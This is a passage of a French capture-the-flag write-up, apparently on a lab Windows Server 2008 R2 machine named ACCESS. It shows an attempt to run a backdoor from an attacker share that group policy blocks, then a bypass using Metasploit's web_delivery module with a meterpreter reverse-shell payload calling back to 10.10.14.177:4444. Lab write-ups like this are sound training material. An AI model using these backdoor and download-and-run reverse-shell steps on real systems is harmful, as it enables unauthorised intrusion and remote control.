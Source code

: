 DIDN'T READ LOL
---------------

On arrive donc sur ce système avec les utilisateurs et les infos suivantes :  

```plain
User accounts for \\ACCESS

-------------------------------------------------------------------------------
Administrator            engineer                 Guest
security
The command completed successfully.

Host Name:                 ACCESS
OS Name:                   Microsoft Windows Server 2008 R2 Standard
OS Version:                6.1.7600 N/A Build 7600
Hotfix(s):                 110 Hotfix(s) Installed
```

Un *tasklist* nous indique qu'à première vue aucun antivirus ne tourne sur la machine et d'ailleurs l'upload d'une backdoor quelconque ne semble pas poser de problèmes.  

On est toutefois bloqué par une GPO si on tente d'exécuter un exe :  

```shellsession
C:\Users\security>\\10.10.14.177\public\backd.exe
This program is blocked by group policy. For more information, contact your system administrator.
```

C'est une restriction en mousse (tm) très vite bypassée via PowerShell en utilisant le module *web\_delivery* de *Metasploit* (ce module génère une ligne de commande utilisant au choix Powershell, Python, PHP, etc qui va télécharger et exécuter du code) :  

```plain
msf exploit(multi/script/web_delivery) > show options

Module options (exploit/multi/script/web_delivery):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  10.10.14.177     yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)

Payload options (windows/x64/meterpreter/reverse_tcp_rc4):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   EXITFUNC     process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST        10.10.14.177     yes       The listen address (an interface may be specified)
   LPORT        4444             yes       The listen port
   RC4PASSWORD  msf              yes       Password to derive RC4 key from

Exploit target:

   Id  Name
   --  ----
   2   PSH

msf exploit(multi/script/web_delivery) > exploit -j
[*] Exploit running as background job 0.

```